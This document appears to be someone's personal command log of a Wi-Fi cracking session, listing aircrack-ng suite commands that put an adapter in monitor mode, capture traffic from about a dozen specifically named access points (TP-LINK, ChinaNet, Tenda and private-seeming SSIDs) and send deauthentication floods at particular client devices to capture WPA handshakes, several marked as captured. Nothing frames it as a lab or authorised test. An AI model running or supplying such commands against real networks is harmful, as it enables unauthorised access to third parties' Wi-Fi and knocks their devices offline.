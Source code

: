 1. airmon-ng start wlan0
2. airodump-ng wlan0mon 
3. next

airodump-ng -c 2 --bssid D8:32:14:72:E0:51 -w 1108 wlan0mon (handshake)


airodump-ng -c 11 --bssid 48:0E:EC:7C:17:E4 -w 480eec7c17e4-chen-17B wlan0mon


airodump-ng -c 12 --bssid 50:89:65:27:6A:98 -w 508965276a98-cpp001 wlan0mon
aireplay-ng -0 10 -a 50:89:65:27:6A:98 -c 4C:EA:AE:88:39:DF wlan0mon


airodump-ng -c 4 --bssid 8C:14:B4:47:24:F0 -w 8c14b44724f0-ChinaNet-7WSi wlan0mon


airodump-ng -c 7 --bssid 50:FA:84:4A:7C:55 -w 50fa844a7c55-TP-LINK_1107 wlan0mon (handshake)
aireplay-ng -0 10 -a 50:FA:84:4A:7C:55 -c A0:CC:2B:B2:D5:9F wlan0mon


airodump-ng -c 6 --bssid 18:F2:2C:B4:92:18 -w 18f22cb49218-TP-LINK_1203 wlan0mon (handshake)
aireplay-ng -0 10 -a 18:F2:2C:B4:92:18 -c C8:28:32:85:E3:23 wlan0mon


airodump-ng -c 11 --bssid 48:0E:EC:50:97:E4 -w 480eec5097e4-xiaokeaidejia wlan0mon
aireplay-ng -0 10 -a 48:0E:EC:50:97:E4 -c 


airodump-ng -c 1 --bssid A4:39:B3:83:73:65 -w a439b37365-XiaoHua-608 wlan0mon (handshake)
aireplay-ng -0 10 -a A4:39:B3:83:73:65 -c 4E:11:A7:9E:A8:B6 wlan0mon


airodump-ng -c 8 --bssid D8:32:14:72:E0:51 -w d8321472e051-Tenda_72E050 wlan0mon (handshake)
aireplay-ng -0 10 -a D8:32:14:72:E0:51 -c 14:2D:27:49:80:89 wlan0mon


airodump-ng -c 7 --bssid 56:FA:84:4A:7C:55 -w fa844a7c55-Guest_7C55 wlan0mon


airodump-ng -c 11 --bssid C8:BF:4C:44:DB:82 -w c8bf4c44db82-K2P_5794 wlan0mon (handshake)
aireplay-ng -0 10 -a C8:BF:4C:44:DB:82 -c 44:23:7C:8D:12:25 wlan0mon




